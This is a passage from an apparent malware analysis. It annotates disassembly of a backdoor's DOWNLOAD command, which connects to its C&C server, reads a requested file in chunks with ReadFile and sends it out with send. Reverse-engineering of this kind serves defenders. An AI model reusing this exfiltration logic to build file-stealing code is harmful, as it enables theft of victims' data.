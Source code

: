 #### Command DOWNLOAD

The expected format of the command is `DOWNLOAD Port FileName`:

```
.text:0040220D      mov     edx, [ebp+token_download] ; token[2]=FileName
.text:00402213      push    edx
.text:00402214      mov     eax, [ebp+port_]
.text:0040221A      push    eax              ; token[1]=port
.text:0040221B      mov     ecx, [ebp+C2]
.text:0040221E      push    ecx              ; C&C
.text:0040221F      call    NET_Download
```

Inside the function `NET_Download()`, a connection is established with the C&C and the API `CreateFileA` is used, this time to get a file handle with **read** permission (code not shown).

The API `ReadFile` is called in a loop to read the requested file by chunks of 0x200 bytes until the error `ERROR_HANDLE_EOF` occurs:

```
.text:004018E3 read_continue:
.text:004018E3      mov     [ebp+total_sent], 0
.text:004018ED      push    0               ; lpOverlapped
.text:004018EF      lea     edx, [ebp+NumberOfBytesRead]
.text:004018F2      push    edx             ; lpNumberOfBytesRead
.text:004018F3      push    200h            ; nNumberOfBytesToRead
.text:004018F8      lea     eax, [ebp+Buffer]
.text:004018FE      push    eax             ; lpBuffer
.text:004018FF      mov     ecx, [ebp+hFile]
.text:00401905      push    ecx             ; hFile
.text:00401906      call    ds:ReadFile
.text:0040190C      test    eax, eax        ; 0 if an error occurred
.text:0040190E      jnz     short send_continue 
.text:00401910      call    ds:GetLastError
.text:00401916      cmp     eax, ERROR_HANDLE_EOF
.text:00401919      jz      short end_of_file
[...]
.text:004019A8      cmp     [ebp+NumberOfBytesRead], 0 
.text:004019AC      ja      read_continue
``` 

Within this loop is a second one sending the data with the API `send`:

```
.text:0040193E end_of_file:
.text:0040193E      mov     [ebp+NumberOfBytesRead], 0
.text:00401945 send_continue:
.text:00401945      push    0               ; flags
.text:00401947      mov     ecx, [ebp+NumberOfBytesRead]
.text:0040194A      push    ecx             ; len
.text:0040194B      lea     edx, [ebp+Buffer]
.text:00401951      push    edx             ; buf
.text:00401952      mov     eax, [ebp+s]
.text:00401955      push    eax             ; s
.text:00401956      call    ds:send
.text:0040195C      mov     [ebp+current_sent], eax
.text:00401962      cmp     [ebp+current_sent], 0FFFFFFFFh
.text:00401969      jnz     short update_counter
[...]
.text:0040198B update_counter:  
.text:0040198B      mov     eax, [ebp+total_sent]
.text:00401991      add     eax, [ebp+current_sent]
.text:00401997      mov     [ebp+total_sent], eax
.text:0040199D      mov     ecx, [ebp+total_sent]
.text:004019A3      cmp     ecx, [ebp+NumberOfBytesRead]
.text:004019A6      jb      short send_continue
```